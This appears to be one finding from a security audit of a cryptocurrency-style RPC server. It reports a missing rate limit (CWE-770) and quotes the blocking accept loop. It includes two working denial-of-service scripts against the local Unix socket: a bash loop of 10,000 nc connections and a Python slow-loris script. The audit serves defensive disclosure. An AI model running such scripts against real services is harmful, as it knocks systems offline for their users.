 
### 5. NO RATE LIMITING
**Severity**: HIGH
**CWE**: CWE-770 (Allocation of Resources Without Limits)
**Location**: `rpc_server.cpp:142-159`

#### Vulnerability Description

The RPC server accepts unlimited connections with no rate limiting, allowing trivial denial-of-service attacks.

#### Vulnerable Code

```cpp
void RPCServer::ServerThread()
{
    while (running_) {
        int client_fd = accept(server_fd_, ...);  // Unlimited accepts
        if (client_fd < 0) {
            continue;
        }

        HandleClient(client_fd);  // Synchronous, blocks server thread
        close(client_fd);
    }
}
```

#### Attack Scenarios

**Attack 1: Connection Spam**
```bash
# 10,000 rapid connections
for i in {1..10000}; do
    echo '{"method":"getinfo"}' | nc -U /tmp/coinbasechain.sock &
done
```

Result: Server thread blocked handling requests, new connections queued

**Attack 2: Slow Loris**
```python
import socket, time
socks = []
for i in range(1000):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect('/tmp/coinbasechain.sock')
    s.send(b'{')  # Send partial request
    socks.append(s)
    time.sleep(0.1)
# Keep sockets open indefinitely
time.sleep(999999)
```

Result: File descriptor exhaustion, no new connections possible
